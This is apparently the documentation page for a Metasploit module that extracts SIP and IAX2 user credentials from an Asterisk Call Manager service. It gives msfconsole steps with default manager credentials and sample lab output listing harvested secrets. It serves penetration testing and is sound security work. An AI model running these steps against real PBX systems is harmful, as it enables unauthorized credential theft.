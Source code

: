 ## Description

  This module retrieves SIP and IAX2 user extensions and credentials from Asterisk Call Manager service.

  Valid manager credentials are required.


## Vulnerable Application

  [Asterisk](http://www.asterisk.org/get-started/features) offers both classical PBX functionality and advanced features, and interoperates with traditional standards-based telephony systems and Voice over IP systems.

  This module has been tested successfully on:

  * Asterisk Call Manager version 2.10.0 on Asterisk 13.16.0
  * Asterisk Call Manager version 1.1 on Asterisk 1.6.2.11

  The following software comes with Asterisk preinstalled and can be used for testing purposes:

  * [FreePBX](https://www.freepbx.org/downloads/)
  * [VulnVoIP](https://www.rebootuser.com/?p=1069)

  Note that Asterisk will reject valid authentication credentials when connecting from a network that has not been permitted using the `permit` directive (or is specifically denied in the `deny` directive) in the Asterisk manager configuration file `/etc/asterisk/manager.conf`.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/gather/asterisk_creds`
  3. Do: `set rhost <RHOST>`
  4. Do: `set rport <RPORT>` (default: `5038`)
  5. Do: `set username <USERNAME>` (default: `admin`)
  6. Do: `set password <PASSWORD>` (default: `amp111`)
  7. Do: `run`
  8. You should get credentials


## Scenarios

  ```
  [*] 172.16.191.229:5038 - Found Asterisk Call Manager version 2.10.0
  [+] 172.16.191.229:5038 - Authenticated successfully
  [*] 172.16.191.229:5038 - Found 9 users

  Asterisk User Credentials
  =========================

   Username  Secret                Type
   --------  ------                ----
   100                             sip
   103       bbf5d449753391a       sip
   104       273db6cd9ca402f53354  iax2
   105       secret password       sip
   106       "_" ;)                iax2
   107       123456789             sip
   108       ~!@#$%^&*()_+{}       sip
   109       antidisestablishment  iax2
   123       y2u.be/VOaZbaPzdsk    iax2

  [+] 172.16.191.229:5038 - Credentials saved in: /root/.msf4/loot/20170723052316_default_172.16.191.229_asterisk.user.cr_798166.txt
  [*] Auxiliary module execution completed
  ```

